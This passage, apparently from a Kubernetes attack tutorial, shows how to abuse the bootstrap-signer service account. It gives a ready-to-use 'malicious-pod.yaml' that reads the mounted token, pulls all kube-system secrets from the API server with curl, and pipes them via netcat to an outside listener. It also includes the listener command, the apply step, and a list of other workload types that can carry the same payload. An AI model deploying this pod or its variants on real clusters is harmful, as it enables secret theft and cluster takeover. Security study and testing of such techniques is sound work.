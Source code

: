 ```
kubectl get role system:controller:bootstrap-signer -n kube-system -o yaml
```

**Step 2.** Create an "evil" pod that will mount the "bootstrap-signer" service account token

**Step 2.1.** Create a YAML file that describes the pod, mounts the "bootstrap-signer" and reads all the secrets from the API server and sends them to our remote listener

malicious-pod.yaml:

```
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 443; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```

**Step 3.** Launch the netcat listener

```
nc -nlvp 443
```

**Step 4.** Create the "evil" pod

```
kubectl apply -f malicious-pod.yaml
```

**Evil pods can also be created by crafting malicious yaml files of other objects suchs as daemonsets, replicasets, jobs etc. which support the "PodTemplateSpec":**

(https://kubernetes.io/docs/reference/generated/kubernetes-api/v1.11/#podtemplatespec-v1-core)

```
DaemonSetSpec [apps/v1]
DaemonSetSpec [apps/v1beta2]
DaemonSetSpec [extensions/v1beta1]
DeploymentSpec [apps/v1]
DeploymentSpec [apps/v1beta2]
DeploymentSpec [apps/v1beta1]
DeploymentSpec [extensions/v1beta1]
JobSpec [batch/v1]
PodTemplate [core/v1]
ReplicaSetSpec [apps/v1]
ReplicaSetSpec [apps/v1beta2]
ReplicaSetSpec [extensions/v1beta1]
ReplicationControllerSpec [core/v1]
StatefulSetSpec [apps/v1]
StatefulSetSpec [apps/v1beta2]
StatefulSetSpec [apps/v1beta1]
```
